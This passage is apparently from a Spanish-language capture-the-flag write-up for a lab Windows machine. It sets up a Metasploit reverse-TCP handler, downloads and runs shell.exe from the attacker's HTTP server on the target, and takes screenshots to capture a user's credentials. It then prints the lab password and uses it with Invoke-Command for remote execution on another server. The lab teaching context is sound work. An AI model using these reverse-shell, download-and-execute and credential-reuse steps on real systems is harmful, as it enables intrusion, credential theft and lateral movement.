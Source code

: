 Iniciaremos el Metasploit para recibir la Reverse Shell y desde la consola de PowerShell Web Access ejecutaremos el binario y comprobaremos que recibimos correctamente la Reverse Shell en Metasploit.

```powershell
msf6> use explot/multi/handler

msf6> set lhost 10.10.16.3

msf6> set port 443

msf6> set payload windows/meterpreter/reverse_tcp

msf6> run

python3 -m http.server

IWR-Uri http://10.10.16.3/shell.exe -OutFile shell.exe

.\shell.exe
```

<figure><img src="../../../../../.gitbook/assets/2694_vmware_Q3L6jTLN9K.png" alt=""><figcaption></figcaption></figure>

Al acceder a la máquina, verificamos que el usuario _**edavies**_ tiene bastantes procesos abiertos, lo cual nos afirma la teoría que está utilizando una consola en el equipo en estos momentos.

<figure><img src="../../../../../.gitbook/assets/2695_vmware_tCNPo6CtWt (1).png" alt=""><figcaption></figcaption></figure>

A través de la utilidad _**screenshot**_ de Metasploit, procederemos a realizar capturas de pantalla del equpo.

Al revisar las capturas que hemos ido realizando, verificamos que el usuario está tratando de realizar una conexión al equipo _**ATSSERVER**_ con las credenciales del usuario '_**imonks**_'.

<figure><img src="../../../../../.gitbook/assets/2697_vmware_6JPLAdox4f.png" alt=""><figcaption></figcaption></figure>

## Initial Access - Pivoting to imonks

### Getting remote command execution on another server

Desde la consola de PowerShell Web Access, procederemos a configurarnos las credenciales del usuario _**'imonks**_' a través de PSCredential.

Una vez configurada las credenciales, procederemos a intentar ejecutar el comando '_**whoami**_' en la máquina _**ATSSERVER**_ mediante la configuración que hemos podido capturar en el punto anterior.

Verificamos que el comando ha sido ejecutado correctamente en el servidor y nos ha devuelto correctamente el output. lo cual indica que las credenciales son válidas.

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'W3_4R3_th3_f0rce.' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$SecPassword)

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { whoami }
```
{% endcode %}
